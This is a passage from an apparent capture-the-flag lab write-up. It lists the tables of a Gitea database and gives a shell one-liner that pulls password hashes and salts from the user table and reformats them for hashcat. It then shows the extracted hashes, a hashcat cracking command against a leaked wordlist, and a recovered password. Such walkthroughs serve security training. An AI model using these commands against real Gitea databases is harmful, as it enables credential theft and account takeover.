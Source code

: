 ```bash
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook
```

We can use this one-liner to convert the information of user's table to a hash fortat: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

And we can try to crack the hash(with a good computer)

```bash 
hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
``` 

We will find that developer's password is: 25282528
